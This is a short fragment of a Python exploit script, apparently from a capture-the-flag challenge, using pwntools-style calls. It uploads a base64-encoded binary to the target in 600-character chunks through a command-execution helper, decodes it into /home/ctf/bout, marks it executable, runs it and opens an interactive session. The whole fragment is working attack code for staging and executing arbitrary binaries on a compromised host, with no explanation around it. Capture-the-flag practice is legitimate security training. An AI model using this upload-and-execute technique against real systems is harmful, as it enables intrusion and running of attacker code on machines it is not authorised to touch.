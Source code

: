 ```python
        p.status("%d / %d" % (i, len(encoded)))
        exec_cmd("echo \"%s\" >> /home/ctf/benc" % (encoded[i:i+600]))

    exec_cmd("cat /home/ctf/benc | base64 -d > /home/ctf/bout")
    exec_cmd("chmod +x /home/ctf/bout")
    exec_cmd("/home/ctf/bout")
    
upload()
io.interactive()
```